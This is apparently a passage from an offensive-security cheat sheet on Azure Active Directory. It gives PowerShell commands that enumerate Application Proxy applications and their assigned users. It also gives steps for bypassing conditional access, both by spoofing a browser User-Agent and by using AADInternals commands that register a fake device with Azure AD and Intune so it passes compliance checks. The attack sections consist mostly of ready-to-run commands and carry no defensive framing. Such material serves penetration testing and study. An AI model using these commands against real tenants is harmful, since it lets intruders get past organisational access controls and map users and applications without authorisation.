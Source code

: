 ## Application Proxy

```powershell
# Enumerate application that have Proxy
PS C:\Tools> Get-AzureADApplication | %{try{GetAzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
PS C:\Tools> Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "Finance Management System"}
PS C:\Tools> . C:\Tools\GetApplicationProxyAssignedUsersAndGroups.ps1
PS C:\Tools> Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT-ID>
```

## Conditional Access

* Bypassing conditional access by copying User-Agent (Chrome Dev Tool > Select iPad Pro, etc)
* Bypassing conditional access by faking device compliance
    ```powershell
    # AAD Internals - Making your device compliant
    # Get an access token for AAD join and save to cache
    Get-AADIntAccessTokenForAADJoin -SaveToCache
    # Join the device to Azure AD
    Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
    # Marking device compliant - option 1: Registering device to Intune
    # Get an access token for Intune MDM and save to cache (prompts for credentials)
    Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
    # Join the device to Intune
    Join-AADIntDeviceToIntune -DeviceName "SixByFour"
    # Start the call back
    Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
    ```


## Azure AD

With Microsoft, if you are using any cloud services (Office 365, Exchange Online, etc) with Active Directory (on-prem or in Azure) then an attacker is one credential away from being able to leak your entire Active Directory structure thanks to Azure AD.

